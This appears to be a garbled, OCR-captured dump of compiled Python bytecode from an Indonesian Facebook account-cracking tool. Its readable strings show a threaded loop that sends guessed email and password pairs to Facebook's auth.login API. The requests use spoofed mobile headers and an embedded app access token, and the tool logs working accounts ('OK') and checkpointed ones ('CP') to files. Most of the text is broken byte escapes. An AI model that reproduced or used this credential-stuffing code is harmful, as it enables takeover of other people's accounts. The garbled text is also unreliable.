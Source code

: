 Retak...u\xaa\x00\x00\x00%s\x1b[1;90m\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\xe2\x94\x80\x1b[92;1m \xe9\x1e\x00\x00\x00)\x01Z\x0bmax_workers\xfa\x01|r\x01\x00\x00\x00r\x02\x00\x00\x00\xe9\x06\x00\x00\x00\xe9\x03\x00\x00\x00rG\x00\x00\x00r6\x00\x00\x00zi   \x1b[1;90m[\x1b[1;97m>_\x1b[1;90m]\x1b[1;97m Ingin Kelua \x1b[1;90m(\x1b[1;92mY\x1b[1;90m/\x1b[1;91mT\x1b[1;90m)\x1b[1;90m :\x1b[1;92m rH\x00\x00\x00)\x12r/\x00\x00\x00r5\x00\x00\x00r\t\x00\x00\x00r4\x00\x00\x00r<\x00\x00\x00\xda\x03str\xda\x03lenrA\x00\x00\x00\xda\x04tredrM\x00\x00\x00\xda\x05split\xda\x05lowerrB\x00\x00\x00rO\x00\x00\x00Z\x06submit\xda\x06crack2r;\x00\x00\x00r>\x00\x00\x00)\x07Z\x04poolZ\x06yuzong\xda\x03idfZ\x03nmfZ\x03frs\xda\x03pwvZ\x06exitssr)\x00\x00\x00r)\x00\x00\x00r*\x00\x00\x00rP\x00\x00\x00\x8e\x00\x00\x00s:\x00\x00\x00\x06\x01\x06\x01\x0c\x01(\x01\x0c\x01\x0c\x01\x0c\x01\x08\x01"\x01\x0e\x01\x04\x01\x0c\x01\x0c\x01\x02\x01\x0c\x02\x0c\x02\x0c\x01\n\x02\x08\x01\x10\x01\x10\x02\x02\xef\x1c\xff\x08\x13\x0c\x01\x0c\x01\x08\x01\n\x01\n\x02rP\x00\x00\x00c\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\n\x00\x00\x00\n\x00\x00\x00C\x00\x00\x00s\xf0\x01\x00\x00t\x00\xa0\x01t\x02t\x03t\x04t\x05t\x06t\x07g\x06\xa1\x01}\x02t\x08d\x01\x14\x00t\tt\n\x83\x01\x1b\x00}\x03d\x02}\x04t\x0bd\x03|\x02t\x08t\tt\n\x83\x01t\x0ct\rt\x0e|\x03\x83\x01t\x0f|\x04\x83\x01t\x10f\x08\x16\x00d\x04d\x05\x8d\x02\x01\x00t\x11j\x12\xa0\x13\xa1\x00\x01\x00t\x00\xa0\x01t\x14\xa1\x01\xa0\x15d\x06d\x07\xa1\x02}\x05t\x16\xa0\x17\xa1\x00}\x06|\x01D\x00]\xb2}\x07z\xa0t\x0ft\x00\xa0\x18d\x08d\t\xa1\x02\x83\x01t\x0ft\x00\xa0\x18d\nd\x0b\xa1\x02\x83\x01t\x0ft\x00\xa0\x18d\nd\x0b\xa1\x02\x83\x01d\x0cd\r|\x05d\x0ed\x0fd\x10\x9c\x08}\x08|\x06j\x19d\x11t\x0f|\x00\x83\x01\x17\x00d\x12\x17\x00t\x0f|\x07\x83\x01\x17\x00d\x13\x17\x00|\x08d\x14\x8d\x02}\td\x15|\t\xa0\x1a\xa1\x00d\x16\x19\x00v\x00r\xb6d\x17t\x1bv\x00r\x8dt\x1c\xa0\x1d|\x00d\x18\x17\x00|\x07\x17\x00\xa1\x01\x01\x00t\x1e|\x00|\x07\x83\x02\x01\x00n&t\x0bd\x19t\x05|\x00|\x07f\x03\x16\x00\x83\x01\x01\x00t\x1fd\x1at \x17\x00d\x1b\x83\x02\xa0!|\x00d\x18\x17\x00|\x07\x17\x00d\x06\x17\x00\xa1\x01\x01\x00t\x1c\xa0\x1d|\x00d\x18\x17\x00|\x07\x17\x00\xa1\x01\x01\x00t\rd\x1c7\x00a\rW\x00\x01\x00n<d\x1d|\tj"v\x00r\xe0d\x1e|\tj"v\x00r\xe0t\x0bd\x1ft\x06|\x00|\x07f\x03\x16\x00\x83\x01\x01\x00t\x1fd t#\x17\x00d\x1b\x83\x02\xa0!|\x00d\x18\x17\x00|\x07\x17\x00d\x06\x17\x00\xa1\x01\x01\x00t\x0cd\x1c7\x00a\x0cW\x00\x01\x00n\x12W\x00q?\x04\x00t\x16j$j%y\xf1\x01\x00\x01\x00\x01\x00t&\xa0\'d!\xa1\x01\x01\x00Y\x00q?w\x00t\x08d\x1c7\x00a\x08d\x00S\x00)"N\xe9d\x00\x00\x00\xfa\x01%uF\x00\x00\x00\r%s   [\xe2\x9e\xb3\xe1\xb4\xb9\xe1\xb4\xbf\xe1\xad\x84\xf0\x9d\x91\xbb\xf0\x9d\x92\x82\xf0\x9d\x92\x8d\xf0\x9d\x92\x89\xf0\x9d\x92\x82] %s/%s  OK/%s | CP/%s : %s%s%sr*\x00\x00\x00)\x01\xda\x03endr\x1e\x00\x00\x00r6\x00\x00\x00g\x00\x00\x00\x00\xd0\x12sAg\x00\x00\x00\x008\x9c|Ai N\x00\x00i@\x9c\x00\x00Z\tEXCELLENTz!cell.CTRadioAccessTechnologyHSDPAz!application/x-www-form-urlencodedZ\x05Liger)\x08z\x19x-fb-connection-bandwidthz\x0cx-fb-sim-hniz\x0cx-fb-net-hniz\x17x-fb-connection-qualityz\x14x-fb-connection-typez\nuser-agentz\x0ccontent-typez\x10x-fb-http-enginez?https://b-api.facebook.com/method/auth.login?format=json&email=z\n&password=a\xae\x01\x00\x00&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true)\x01Z\x07headersz\x10www.facebook.comZ\terror_msgZ\x02yarR\x00\x00\x00u9\x00\x00\x00\r%s   [\xe2\x9e\xb3\xe1\xb4\xb9\xe1\xb4\xbf\xe1\xad\x84\xf0\x9d\x91\xbb\xf0\x9d\x92\x82\xf0\x9d\x92\x8d\xf0\x9d\x92\x89\xf0\x9d\x92\x82 CP] %s|%s        z\x03CP/\xda\x01ar\x02\x00\x00\x00Z\x0bsession_keyZ\x04EAABu9\x00\x00\x00\r%s   [\xe2\x9e\xb3\xe1\xb4\xb9\xe1\xb4\xbf\xe1\xad\x84\xf0\x9d\x91\xbb\xf0\x9d\x92\x82\xf0\x9d\x92\x8d\xf0\x9d\x92\x89\xf0\x9d\x92\x82 OK] %s|%s        z\x03OK/\xe9\x1f\x00\x00\x00)(\xda\x06random\xda\x06choice\xda\x01u\xda\x01k\xda\x02kk\xda\x01br4\x00\x00\x00\xda\x02hh\xda\x04looprV\x00\x00\x00rM\x00\x00\x00r\t\x00\x00\x00\xda\x02ok\xda\x02cp\xda\x03intrU\x00\x00\x00r<\x00\x00\x00r \x00\x00\x00r!\x00\x00\x00r#\x00\x00\x00\xda\x04ugen\xda\x07replace\xda\x08requestsZ\x07SessionZ\x07randint\xda\x03get\xda\x04json\xda\x05oprek\xda\x04akunrB\x00\x00\x00Z\x05cekerr?\x00\x00\x00\xda\x03cpcr"\x00\x00\x00\xda\x04text\xda\x03okcZ\nexceptions\xda\x0fConnectionErrorr$\x00\x00\x00r%\x00\x00\x00)\nr[\x00\x00\x00r\\\x00\x00\x00Z\x02biZ\x04persZ\x03fffZ\x02uaZ\x03sesZ\x02pw\xda\x04headZ\x04respr)\x00\x00\x00r)\x00\x00\x00r*\x00\x00\x00rZ\x00\x00\x00\xb0\x00\x00\x00s:\x00\x00\x00\x16\x02\x10\x01\x04\x016\x01\x12\x01\x08\x01\x08\x01\x02\x01:\x01&\x01\x10\x01\x08\x01\x12\x01\x0c\x01\x12\x02 \x01\x12\x01\x08\x01\x06\x01\x14\x01\x12\x01
